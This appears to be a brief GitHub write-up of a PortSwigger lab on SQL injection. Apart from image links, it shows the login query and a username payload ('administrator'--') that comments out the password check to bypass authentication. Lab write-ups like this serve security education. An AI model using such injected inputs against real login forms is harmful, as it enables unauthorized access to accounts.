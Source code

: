 ## Lab Description :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/1ca7809d-f736-496e-a186-69a54e499f2e)
## Solution :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/fadd94b7-ebef-4a7d-875c-4ca3a69bac72)
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/f2b8d3da-0a07-4ac5-a0a5-1905bedc421f)
Query made -

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
```

To bypass the login, we need to comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'

![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/80889e38-9ae0-4b82-a7c1-a25864c2c1f7)
